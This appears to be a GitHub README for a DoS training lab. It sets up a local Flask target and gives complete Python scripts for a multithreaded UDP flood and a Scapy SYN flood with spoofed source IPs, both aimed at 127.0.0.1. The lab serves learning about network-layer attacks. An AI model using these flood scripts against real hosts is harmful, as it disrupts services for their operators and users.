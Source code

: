 ### ddoslab

A hands-on penetration testing lab for safely simulating **UDP** and **SYN Flood** attacks on a controlled local server. This project is designed to help aspiring red teamers, penetration testers, and cybersecurity learners understand how network-layer denial-of-service attacks work by safely simulating real-world UDP and SYN floods in a controlled lab. By building the attack tools from scratch, observing their effects, and analyzing network behavior, you gain a strong foundation in offensive security, packet manipulation, and ethical exploitation. All outcome are documented in png format under files.

---

#### Project Goal

To simulate and study the behavior of simple denial-of-service (DoS) techniques—specifically **UDP flooding** and **SYN flooding**—against a locally hosted Flask server. This lab demonstrates how network services respond under stress and how basic packet floods can be scripted, launched, and observed in a safe, ethical manner.

---

### What You'll Learn

| Skill                     | Description |
|--------------------------|-------------|
| Packet Crafting        | Generate UDP and TCP SYN packets using Python & Scapy |
| Traffic Flooding       | Simulate network layer floods with multithreading |
| Traffic Inspection     | Analyze live packets using `tcpdump` or Wireshark |
| Protocol Behavior      | Observe how different protocols affect services under attack |
| Ethical Simulation     | Perform safe DoS testing in an isolated lab environment |

---

#### Lab Requirements

- Kali Linux (host or VM)
- Python 3
- Flask (`pip install flask`)
- Scapy (`pip install scapy`)
- tcpdump or Wireshark (for packet capture)

---

#### Steps

#### 1. Create a repository

```bash
mkdir ddoslab && cd ddoslab
```
---

#### 2. Create the server and start it

```bash
vim server.py
```

Include the python script

```python

from flask import Flask
app = Flask(__name__)

@app.route('/')
def home():
    return "Target up!"

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5001)
```

Run the server 

```bash
python3 server.py
```

You can now access target at http://127.0.0.1:5001 on your browser

---


#### 3. Create and Lauch a multithreded UDP flood

```bash
vim udp_flood.py
```

Input the python script below

```python

import socket, random, threading

target_ip = "127.0.0.1"
target_port = 5001

def attack():
    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    payload = random._urandom(1024)
    while True:
        sock.sendto(payload, (target_ip, target_port))

# Launch 10 attack threads
for _ in range(10):
    threading.Thread(target=attack, daemon=True).start()

print(f"UDP flooding {target_ip}:{target_port} with 10 threads...")
input("Press Enter to stop...\n")
```

lauch using the below command

```bash
python3 udp_flood.py
```


For monitoring open a seperate terminal for this 

```bash
sudo tcpdump -i lo port 5001
```
---

#### 4. Create and Lauch a SYN Flood with Scapy

```bash
vim syn_flood.py
```

Input the python script below

```python

from scapy.all import IP, TCP, send, RandShort, RandIP
import time

target_ip = "127.0.0.1"
target_port = 5001

def syn_flood():
    print(f"Starting SYN flood on {target_ip}:{target_port}")
    try:
        while True:
            ip = IP(src=RandIP(), dst=target_ip)
            tcp = TCP(sport=RandShort(), dport=target_port, flags="S")
            pkt = ip / tcp
            send(pkt, verbose=False)
    except KeyboardInterrupt:
        print("\nAttack stopped by user.")

syn_flood()
```

lauch using the below command

```bash
python3 syn_flood.py
```

For monitoring open a seperate terminal for this 

```bash
sudo tcpdump -n -i lo port 5001
```
---
